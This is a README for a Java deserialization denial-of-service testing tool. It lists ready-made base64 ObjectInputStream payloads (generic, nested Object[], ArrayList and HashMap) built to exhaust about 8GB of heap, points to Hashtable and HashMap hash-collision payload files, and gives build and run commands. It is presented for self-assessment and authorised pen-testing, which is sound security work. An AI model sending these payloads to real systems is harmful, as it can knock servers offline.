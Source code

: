 # ObjectInputStream DoS

Project to safely test Java Serialization vulnerability using DoS (OutOfMemoryError)

Provided as-is, only for self-assessment, agreed pen-testing purposes, etc.

## Basic Scenarios

* Generic Heap DoS inside ObjectInputStream
* Heap DoS using nested Object[], ArrayList and HashMap
* Collision attack on Hashtable
* Collision attack on HashMap (Oracle Java 1.7)

## Payloads for 8GB heap consumption

Should be enough to test the vulnerability in most app servers.

Generic (9 bytes):

    rO0ABX1////3

Nested Object[] (44 bytes):

    rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cH////c=

Nested ArrayList (67 bytes):

    rO0ABXNyABNqYXZhLnV0aWwuQXJyYXlMaXN0eIHSHZnHYZ0DAAFJAARzaXpleHB////3dwR////3cHBwcHBwcHBwcA==

Nested HashMap (110 bytes):

    rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABBAAAAAc3EAfgAAP0AAAAAAAAx3CAAAABBAAAAAcHB4cHg=

## Payloads for collision attacks

* Hashtable: see hashtable.collisions.txt file (1.2M), using 10k entries for collision, deserialization takes 40s
* HashMap: (1.7 only) see hashmap.collisions.txt file (800k), using 10k entries for collision, deserialization takes 50s

# Build & Run

    mvn clean package

    java -Xmx25g -jar target/oisdos-1.0.jar

E.g:

    java -Xmx25g -jar target/oisdos-1.0.jar Generic

    java -Xmx25g -jar target/oisdos-1.0.jar ArrayListHeap

    java -Xmx25g -jar target/oisdos-1.0.jar HashtableCollisions 5000

# Other info
* Licence: MIT
* Already reported to Oracle (in 2015) with "won't fix" response